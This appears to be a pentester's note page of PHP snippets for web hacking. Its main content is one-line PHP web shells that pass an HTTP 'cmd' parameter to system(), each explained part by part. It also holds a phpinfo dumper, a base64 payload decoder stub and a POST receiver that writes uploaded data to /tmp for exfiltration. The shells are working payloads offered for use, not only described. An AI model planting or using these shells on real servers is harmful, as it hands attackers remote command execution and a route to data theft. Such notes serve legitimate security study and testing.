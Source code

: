 # Useful_PHP

[RTFM here is a documentation](https://www.php.net/) below is just useful php with description how its workings. One of the many Web-Hackronomicons of eye-brow-raising levels of secure language design with the insanity of multiple function calls capable of doing the exact same thing. Try to remember which are all of the vulnerable code in which server context anduser context when humans like trust and favourites, where is the person that shouts remember the Pwhpaarrr 1.69 version of with a similar function called that is allowed by some design loop hole. 

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

## Scripting

Http `cmd` super global variable function for RCEs  
```php
<?php system($_GET['cmd']); ?>
```
`<?php` is the script tag, `system()`is the function call, `$_GET` is a reserved(in standard libvrary) [superglobal variable for HTTP GET](https://www.php.net/manual/en/reserved.variables.get.php), `['cmd']` ,`;` is line terminating character and finally `?>` is the closing script tag. 

```php
<?php system($_REQUEST['cmd']); ?>
```

phpinfo displayer
```PHP
<?php echo("Hello");phpinfo(); ?>
```

Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions
[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Put your horrible PHP in html: [php.net](https://www.php.net/manual/en/language.basic-syntax.phpmode.php)

## References

[HTTP GET superglobal variable](https://www.php.net/manual/en/reserved.variables.get.php)
[php.net](https://www.php.net/) 
